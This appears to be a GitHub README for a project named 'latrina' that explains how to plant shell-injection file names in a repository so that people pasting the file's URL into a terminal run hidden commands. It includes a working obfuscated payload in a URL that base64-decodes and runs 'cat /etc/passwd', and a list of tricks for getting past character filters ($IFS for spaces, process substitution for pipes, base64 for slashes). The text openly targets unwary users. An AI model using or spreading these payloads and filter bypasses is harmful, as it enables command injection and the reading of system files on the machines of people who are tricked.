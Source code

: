 # latrina
bypass url encoding for nontrivial shell commands

* click on the "Go to file" button
* click on the weirdly named file
* look at the address bar
* the url isn't sanitized

Brainlets like LTT will copy the url and eventually execute the payload, since they don't know about the "raw" button.
Bypassing the rookie level will get you to this point.
Bypassing the god-like level will get you the same, but on the raw content page, which is way nastier.
Create a file called ";whoami" and follow the steps above.
When its url is pasted in the terminal, like ```wget http://localhost/;whoami```,
the payload is executed. Can we bypass the entire url encoding set and execute nontrivial commands?

# testing
use this waf and apply the url encoding patches  
https://raw.githubusercontent.com/theMiddleBlue/challenge-bypass-input-validation/main/index.php

# markdown
we can also put the link in the readme  
and hope someone will copy paste it in a terminal  
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c-<$c<(echo$c$a))  
but you still need to bypass the "<"

# bypassed
```
'"'   # needed to set string variables, bypassed with "('variable')"
'{'   # needed for "${IFS}", bypassed by concatenating "$" or "-" after them
'}'   # same as above
'|'   # needed for "command1 | command2", bypassed with "command2 < <(command1)"
' '   # needed as arguments separator, bypassed with $IFS
'<<<' # same as the "|" bypass
'>>>' # same as above
'/'   # needed for paths, bypassed by encoding the payload with base64
'&'   # needed to begin the command execution, replaced by ";"
'&&'  # same as above
'>'   # needed for redirection, replaced by "<"
```

# todo
rookie level:
```
'<'
```
should be pretty easy, we just need to find a command like base64  
that can encode text without using pipe "|" or redirect "<>"
e.g. goodbase -d "bG1hbwo="

god-like level:
```
'$'
';'
```
should be impossible since you can't use variables nor "start" the command execution
